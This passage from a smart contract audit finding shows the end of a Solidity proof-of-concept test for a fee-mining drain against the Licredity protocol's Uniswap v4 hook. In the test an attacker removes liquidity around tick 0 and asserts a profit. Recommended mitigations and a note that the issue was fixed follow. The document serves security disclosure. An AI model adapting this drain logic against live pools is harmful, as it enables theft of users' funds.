 ```solidity
        IPoolManager.ModifyLiquidityParams({
            tickLower: -2,
            tickUpper:  0,
            liquidityDelta: -L_below,
            salt: ""
        })
    );
    uniswapV4RouterHelper.removeLiquidity(
        attacker,
        poolKey,
        IPoolManager.ModifyLiquidityParams({
            tickLower: 0,
            tickUpper: 2,
            liquidityDelta: -L_above,
            salt: ""
        })
    );
    vm.stopPrank();

    // Attacker balances AFTER
    uint256 baseAfter = attacker.balance;
    uint256 debtAfter = IERC20(address(licredity)).balanceOf(attacker);

    // 5) Value both legs ~at parity (1 debt ~= 1 base). Because the price is ~1,
    //    this notional comparison is a good proxy for profit from the fee mining.
    uint256 notionalBefore = baseBefore + debtBefore;
    uint256 notionalAfter  = baseAfter  + debtAfter;

    // Expect positive drift from:
    //  - near-100% recoup of taker fees (attacker dominates both sides around 1)
    //  - plus back-run fees (paid in debt) captured below 1
    assertGt(notionalAfter, notionalBefore, "drain should be profitable when attacker dominates both sides");
    console.log("Profit from fee mining drain: %s", notionalAfter - notionalBefore);
}
```

**Recommended Mitigation:** Consider one of the following options:
1. Remove the back-run and revert swaps that would end below 1, or reject `sqrtPriceLimitX96` below 1.
2. Only allow whitelisted addresses to provide liquidity in ticks below 1.
3. Use dynamic fees in the hook and don't accrue fees for the back-run (i.e `sender == address(this)`).

**Licredity:** Fixed in [PR#61](https://github.com/Licredity/licredity-v1-core/pull/61/files) and [PR#78](https://github.com/Licredity/licredity-v1-core/pull/78/files), commits [`ddee552`](https://github.com/Licredity/licredity-v1-core/commit/ddee552ce5c1343ed0de1630776655f5313324bb), [`f10c969`](https://github.com/Licredity/licredity-v1-core/commit/f10c969621b2228bee0838ccf3fd597b8b51cef3), [`d8522f8`](https://github.com/Licredity/licredity-v1-core/commit/d8522f8a5b656791536bd87142b2a553ea0b8def), [`039eb4a`](https://github.com/Licredity/licredity-v1-core/commit/039eb4ab5f5c1775d889c9465dde39d22902f583), [`f818f33`](https://github.com/Licredity/licredity-v1-core/commit/f818f335a1f023cac450af4560baf1f0c75c1334), and [`0baca20`](https://github.com/Licredity/licredity-v1-core/commit/0baca209b1cfee61d92b0bde11a1cdf99d2436fe)
